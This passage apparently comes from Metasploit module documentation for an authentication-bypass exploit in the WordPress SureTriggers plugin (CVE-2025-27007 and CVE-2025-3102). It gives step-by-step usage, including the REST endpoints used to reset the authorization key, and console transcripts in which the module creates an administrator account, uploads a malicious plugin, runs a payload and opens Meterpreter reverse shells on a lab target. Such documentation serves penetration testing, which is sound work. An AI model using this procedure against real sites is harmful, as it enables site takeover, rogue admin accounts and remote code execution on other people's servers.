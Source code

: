 1. Ensure SureTriggers v1.0.82 is active.
2. In `msfconsole`, set:

```bash
set ACTION CVE-2025-27007
```
3. Run the module: it will call `/wp-json/sure-triggers/v1/connection/create-wp-connection` to reset the key, then use
   `St-Authorization: Bearer mynewkey123` against `/wp-json/sure-triggers/v1/automation/action`.
4. New administrator is created; payload is uploaded and executed.


### Expected Results (CVE-2025-3102)

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-3102
action => CVE-2025-3102
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.78 vulnerable to CVE-2025-3102
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_hkc1z/ajax_kq8xu.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_kq8xu.php
[+] Deleted wp_hkc1z.php
[+] Deleted ../wp_hkc1z
[*] Meterpreter session 6 opened (192.168.1.36:4444 -> 172.27.0.3:43702) at 2025-05-21 19:35:49 +0200

meterpreter > sysinfo
Computer    : 396e678f2510
OS          : Linux 396e678f2510 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-3102
action => CVE-2025-3102
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.78 vulnerable to CVE-2025-3102
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_xtndd/ajax_bmjl3.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_bmjl3.php
[+] Deleted wp_xtndd.php
[+] Deleted ../wp_xtndd
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.27.0.3:35176) at 2025-05-21 19:36:44 +0200

meterpreter > sysinfo
```